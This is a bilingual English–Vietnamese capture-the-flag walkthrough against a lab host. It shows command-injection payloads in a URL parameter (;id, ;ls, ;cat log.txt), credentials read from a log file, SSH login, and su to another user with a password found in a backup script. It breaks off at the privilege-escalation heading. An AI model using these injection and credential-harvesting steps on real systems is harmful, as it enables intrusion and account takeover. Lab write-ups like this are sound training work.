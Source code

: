### Proof of concept (PoC) — test RCE
Confirm injection:
*(Xác nhận RCE:)*  
```
http://10.10.140.202/joomla/_test/index.php?plot=;id
```
The page returns the output of `id` (e.g. `uid=33(www-data) gid=33(www-data) ...`), confirming remote command execution.  
*(Trang trả về output của `id`, xác nhận RCE.)*

### Further exploration: find and read files
List files:
*(Liệt kê file trong working directory):*
```
http://10.10.140.202/joomla/_test/index.php?plot=;ls
```
Read discovered file:
*(Đọc file tìm thấy):*
```
http://10.10.140.202/joomla/_test/index.php?plot=;cat log.txt
```
`log.txt` contains credentials (e.g. `basterd:superduperp@$$`).  
*(`log.txt` chứa mật khẩu ví dụ.)*

**Root cause:** unescaped user input concatenated into shell commands → **Command Injection (RCE)**.  
*(Nguyên nhân: input không escape nhưng nối vào lệnh shell → Command Injection.)*

---

## Credential harvesting and SSH (Lấy mật khẩu và SSH)

Use discovered credentials to SSH into host (note non-standard port):  
*(Dùng creds SSH vào host):*
```bash
ssh basterd@10.10.140.202 -p 55007
# password: superduperp@$$
```
Inside `basterd`'s home, there is `backup.sh` (or similar) containing another password for `stoner`. Switch user:
*(Trong home tìm backup.sh chứa mật khẩu user khác, rồi chuyển user):*
```bash
cat backup.sh
su stoner
# provide password
```
This yields the user flag and a better vantage point for local enumeration.  
*(Nhận flag user và vị trí tốt để dò leo tiếp.)*

---

## Privilege escalation to root (Leo quyền)
